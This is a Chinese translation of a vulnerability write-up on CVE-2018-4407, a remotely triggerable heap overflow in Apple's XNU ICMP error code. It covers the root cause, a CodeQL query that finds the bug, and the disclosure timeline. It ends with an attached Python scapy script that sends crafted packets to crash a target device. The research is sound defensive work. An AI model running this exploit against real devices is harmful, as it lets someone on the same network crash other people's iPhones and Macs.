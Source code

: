来源：https://xz.aliyun.com/t/3115

原文:<https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407>

## 文中有些链接需要科学上网，apple用户及时更新(想复现的另说)

这篇文章是关于我在Apple的XNU操作系统内核中发现的堆缓冲区溢出漏洞。我编写了一个exp验证漏洞，它可以在同一网络上重启任何Mac或iOS设备，无需任何用户交互。Apple已将此漏洞归类为内核中的远程执行代码漏洞，因为可能利用缓冲区溢出来执行内核中的任意代码。

以下操作系统版本和设备易受攻击：

- Apple iOS 11及更早版本：所有设备（升级到iOS 12）
- Apple macOS High Sierra，最高可达10.13.6：所有设备（在安全更新2018-001中打补丁）
- Apple macOS Sierra，包括10.12.6：所有设备（在安全更新2018-005中打补丁）
- Apple OS X El Capitan及更早版本：所有设备
  我及时报告了Apple为修补[iOS 12](https://support.apple.com/en-gb/HT209106)（9月17日发布）和[macOS Mojave](https://support.apple.com/en-gb/HT209139)（9月24日发布）漏洞的漏洞。这两个补丁都是在10月30日回顾性宣布的。

## 严重程度和缓解措施

该漏洞是XNU操作系统内核中的网络代码中的堆缓冲区溢出。iOS和macOS都使用XNU，这就是iPhone，iPad和Macbook都受到影响的原因。要触发此漏洞，攻击者只需将恶意IP数据包发送到目标设备的IP地址即可。无需用户交互。攻击者只需要连接到与目标设备相同的网络。例如，如果您在咖啡店使用免费WiFi，则攻击者可以加入相同的WiFi网络并向您的设备发送恶意数据包。（如果攻击者与您在同一网络上，则他们很容易使用nmap发现您设备的IP地址。）更糟糕的是，该漏洞是网络代码的一个基本部分，反病毒软件无法保护您：我在运行着[McAfee®EndpointSecurity for Mac](https://www.mcafee.com/enterprise/en-us/products/endpoint-security.html)的Mac上测试了该漏洞，没有任何防护。您在设备上运行的软件也没有能力防护 - 即使您没有打开任何端口，恶意数据包仍会触发漏洞。

由于攻击者可以控制堆缓冲区溢出的大小和内容，因此他们可能利用此漏洞在您的设备上获得远程代码执行。我没有尝试编写能够做到这一点的漏洞。我的漏洞利用PoC只是用垃圾覆盖堆，导致立即内核崩溃和设备重启。

我知道针对此漏洞的两种缓解措施：

- 在macOS防火墙中启用隐藏模式可防止攻击工作。感谢我的同事Henti Smith发现这一点，因为这是一个模糊的系统设置，默认情况下不启用。据我所知，iOS设备上不存在隐藏模式。
- 不要使用公共WiFi网络。攻击者需要与目标设备位于同一网络中。通常不可能通过互联网发送恶意数据包。例如，我写了一个虚假的Web服务器，当目标设备尝试加载网页时，它会发回恶意回复。在我的实验中，恶意数据包永远不会到达，除非Web服务器与目标设备位于同一网络上。

## 验证exp

我编写了一个验证exp来触发漏洞。为了让Apple的用户有时间升级，我不会立即发布漏洞利用PoC的源代码。但是，我制作了一个[简短的视频](https://www.youtube.com/watch?v=aV7yEemjexk)，显示PoC正在运行，导致本地网络上的所有Apple设备崩溃。

## 漏洞

该错误是这行代码中的缓冲区溢出（[bsd/netinet/ip_icmp.c:339](https://github.com/apple/darwin-xnu/blob/0a798f6738bc1db01281fc08ae024145e84df927/bsd/netinet/ip_icmp.c#L339)）：
`m_copydata(n, 0, icmplen, (caddr_t)&icp->icmp_ip);`
此代码在函数中`[icmp_error](https://github.com/apple/darwin-xnu/blob/0a798f6738bc1db01281fc08ae024145e84df927/bsd/netinet/ip_icmp.c#L203-L208 "icmp_error")`。根据[结论](https://github.com/apple/darwin-xnu/blob/0a798f6738bc1db01281fc08ae024145e84df927/bsd/netinet/ip_icmp.c#L198-L201)，此功能的目的是“生成错误数据包，以响应错误的数据包ip”。它使用ICMP协议发送错误消息。导致错误的分组的报头被包括在ICMP消息，所以呼叫的到目的m_copydata上线339是坏的分组的报头复制到ICMP消息。问题是标头可能对目标缓冲区来说太大了。目标缓冲区是`mbuf`。mbuf是一种数据类型，用于存储传入和传出的网络数据包。在此代码中，n是一个传入的数据包（包含不受信任的数据）和m是传出的ICMP数据包。我们很快就会看到，icp是一个指针m。m在第294行或第296行分配：

```
if (MHLEN > (sizeof(struct ip) + ICMP_MINLEN + icmplen))
  m = m_gethdr(M_DONTWAIT, MT_HEADER);  /* MAC-OK */
else
  m = m_getcl(M_DONTWAIT, MT_DATA, M_PKTHDR);
```

稍微向下，在第314行，mtod用于获取m数据指针：
`icp = mtod(m, struct icmp *);`
mtod只是宏，所以这行代码不会检查它mbuf是否足以容纳icmp结构。此外，数据不会复制到icp，而是复制到&icp->icmp_ip+8字节的偏移量icp。

我没有必要的工具来在调试器中单步执行XNU内核，所以我实际上对它的确切分配大小有点不确定mbuf。基于我在源代码中看到的，我认为m_gethdr创建一个mbuf可以容纳88个字节，但我不太确定m_getcl。根据实际实验，我发现在触发缓冲区溢出时icmplen >= 84。

在这个时候，我不会再谈论漏洞利用的工作原理了。我希望Apple用户有机会首先升级他们的设备。但是，在不久的将来，我将在[SecurityExploits](https://github.com/Semmle/SecurityExploits)存储库中发布漏洞利用PoC的源代码。

## 使用QL查找漏洞

我通过对导致数据包管理程序中的缓冲区溢出漏洞的错误进行变体分析，发现了此漏洞。该漏洞是由mbuf_copydata使用用户控制的大小参数调用引起的。所以我写了一个简单的查询来寻找类似的bug：

```
**
 * @name mbuf copydata with tainted size
 * @description Calling m_copydata with an untrusted size argument
 *              could cause a buffer overflow.
 * @kind path-problem
 * @problem.severity warning
 * @id apple-xnu/cpp/mbuf-copydata-with-tainted-size
 */

import cpp
import semmle.code.cpp.dataflow.TaintTracking
import DataFlow::PathGraph

class Config extends TaintTracking::Configuration {
  Config() { this = "tcphdr_flow" }

  override predicate isSource(DataFlow::Node source) {
    source.asExpr().(FunctionCall).getTarget().getName() = "m_mtod"
  }

  override predicate isSink(DataFlow::Node sink) {
    exists (FunctionCall call
    | call.getArgument(2) = sink.asExpr() and
      call.getTarget().getName().matches("%copydata"))
  }
}

from Config cfg, DataFlow::PathNode source, DataFlow::PathNode sink
where cfg.hasFlowPath(source, sink)
select sink, source, sink, "m_copydata with tainted size."
```

这是一个简单的污点跟踪查询，它查找从`m_mtod“copydata”`函数的参数大小到数据流。名为的函数`m_mtod`返回mbuf的数据指针，因此它很可能会返回不受信任的数据。这是mtod宏扩展到的。显然，`m_mtod`这只是XNU内核中不受信任数据的众多来源之一，但我没有包含任何其他来源以使查询尽可能简单。此查询返回9个结果，其中第一个是漏洞`icmp_error`。我相信其他8个结果都是误报，但代码足够复杂，我认为它们是错误的查询结果。

## 在XNU上尝试QL

与大多数其他开源项目不同，XNU无法在LGTM上查询。这是因为LGTM使用Linux工作程序来构建项目，但XNU只能在Mac上构建。即使在Mac上，XNU也非常容易构建。如果我没有找到杰里米·安德鲁斯这篇非常有用的[博客文章](https://kernelshaman.blogspot.com/2018/01/building-xnu-for-macos-high-sierra-1013.html)，我就无法做到。使用Jeremy Andrus的说明和脚本，我为三个最新发布的XNU版本手动构建了快照。：您可以从这些链接下载快照10.13.4，10.13.5，10.13.6。不幸的是，Apple尚未发布10.14（Mojave / iOS 12）的源代码，因此我无法创建QL快照来运行针对它的查询。要在这些QL快照上运行查询，您需要下载[QL for Eclipse](https://help.semmle.com/ql-for-eclipse/Content/WebHelp/installation.html)。可以在[此处](https://help.semmle.com/ql-for-eclipse/Content/WebHelp/home-page.html)找到有关如何使用QL for Eclipse的说明。

## 时间线

- 2018-08-09：私下向product-security@apple.com披露。包括概念验证漏洞利用。
- 2018-08-09：报告被product-security@apple.com承认。
- 2018-08-20：product-security@apple.com让我向他们发送确切的macOS版本号和日志。
- 2018-08-20：将所需信息返回至product-security@apple.com。还向他们发送了一个略微改进的漏洞- PoC版本。
- 2018-08-22：product-security@apple.com确认该问题已在macOS Mojave和iOS 12的测试版中得到修复。但是，他们还表示他们正在“调查在其他平台上解决此问题”并且他们将直到2018年11月才公布此问题。
- 2018-09-17：Apple发布iOS 12。该漏洞已得到修复。
- 2018-09-24：macOS Mojave由Apple发布。该漏洞已得到修复。
- 2018-10-30：公布漏洞。

附上python exp

```python
# CVE-2018-4407 ICMP DOS
# https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407
# from https://twitter.com/ihackbanme
import sys
try:
    from scapy.all import *
except Exception as e:
    print ("[*] You need install scapy first:\n[*] sudo pip install scapy ")
if __name__ == '__main__':
    try:
        check_ip = sys.argv[1]
        print ("[*] !!!!!!Dangerous operation!!!!!!")
        print ("[*] Trying CVE-2018-4407 ICMP DOS " + check_ip)
        for i in range(8,20):
            send(IP(dst=check_ip,options=[IPOption("A"*i)])/TCP(dport=2323,options=[(19, "1"*18),(19, "2"*18)]))
        print ("[*] Check Over!! ")
    except Exception as e:
        print "[*] usage: sudo python check_icmp_dos.py 127.0.0.1"
//有些缩进要调一调
```

